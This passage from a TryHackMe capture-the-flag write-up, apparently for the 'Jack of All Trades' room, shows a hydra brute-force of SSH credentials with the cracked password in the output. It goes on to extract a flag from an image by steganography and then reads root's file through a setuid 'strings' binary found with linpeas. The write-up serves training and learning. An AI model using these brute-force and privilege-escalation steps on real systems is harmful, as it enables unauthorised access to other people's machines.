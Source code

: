 Saving this locally to a file allows us to brute force with hydra:
```bash
jeffrowell@kali:~/Documents/TryHackMe/Jack of All Trades$ hydra -l jack -P jacks_password_list ssh://$IP:80
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-24 17:01:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://10.10.111.20:80/
[80][ssh] host: 10.10.111.20   login: jack   password: ITMJpGGIqg1jn?>@
```

After using SSH to log in as jack, looking around jack has a file named `user.jpg` in the `/home/jack` directory:

```bash
jack@jack-of-all-trades:~$ ls
user.jpg
jack@jack-of-all-trades:~$ pwd
/home/jack
```

So we scp that file down and using stegsolve.jar to look at the file we find the first flag:

![stegsolve_flag1](https://user-images.githubusercontent.com/32188816/82767438-cb788900-9de4-11ea-95ef-cfd4183c7cb2.png)



### 2 -- Root Flag

Here you know the drill. Get linpeas on the box and start to enumerate. As a result of running linpeas, we found that the `find` and `strings` commands are both owned by root, so maybe we can leverage those to get the flag. Truncated linpeas output:

```bash
[+] Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root dev 27536 Feb 25  2015 /usr/bin/strings
-rwxr-x--- 1 root dev 233984 Nov  8  2014 /usr/bin/find
```

Assuming the flag is in `/root/root.txt` we can try to strings that file and get the flag:

```bash
jack@jack-of-all-trades:~$ strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
```
